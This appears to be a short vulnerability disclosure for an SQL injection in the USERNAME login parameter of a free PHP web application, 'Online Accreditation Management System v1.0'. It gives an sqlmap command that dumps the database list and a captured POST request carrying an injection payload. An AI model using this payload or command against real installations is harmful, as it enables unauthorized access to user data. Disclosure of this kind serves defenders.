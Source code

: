 # Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---

![image-20220527131251530](png01.png)


### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---

![image-20220527130708845](png02.png)

![image-20220527131145577](png03.png)


### Proof and Exploit:

---
![image-123](poc.gif)

[watch the video here](poc.mp4)

